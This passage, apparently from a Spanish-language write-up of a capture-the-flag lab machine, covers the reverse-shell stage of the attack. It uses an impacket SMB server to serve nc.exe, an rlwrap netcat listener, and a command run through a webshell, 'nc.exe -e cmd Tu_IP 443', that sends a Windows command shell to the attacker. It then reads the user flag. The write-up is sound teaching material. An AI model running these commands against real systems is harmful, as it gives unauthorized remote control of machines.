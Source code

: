 Desde tu directorio actual de trabajo, vamos a levantar el **servicio SMB** para que podamos usar el **binario nc.exe** desde la **WebShell**:
```bash
impacket-smbserver smbFolder $(pwd) -smb2support
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
.
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

Usa **rlwrap** en conjunto con **netcat**:
```bash
rlwrap nc -nvlp 443
listening on [any] 443 ...
```

Por último, vamos a usar nuestro **Servicio SMB** para poder usar remotamente el **binario nc.exe** y mandar una conexión hacia nuestra máquina:
```batch
\\Tu_IP\smbFolder\nc.exe -e cmd Tu_IP 443
```

<p align="center">
<img src="/assets/images/THL-writeup-cocidoAndaluz/Captura8.png">
</p>

Observa la **netcat**:
```batch
rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.1.80] 49160
Microsoft Windows [Versi�n 6.0.6001]
Copyright (c) 2006 Microsoft Corporation.  Reservados todos los derechos.
.
c:\windows\system32\inetsrv>whoami
whoami
nt authority\servicio de red
```

Ya solo podemos obtener la flag del usuario:
```batch
c:\windows\system32\inetsrv>cd C:\Users\info
cd C:\Users\info
.
C:\Users\info>type user.txt
...
```
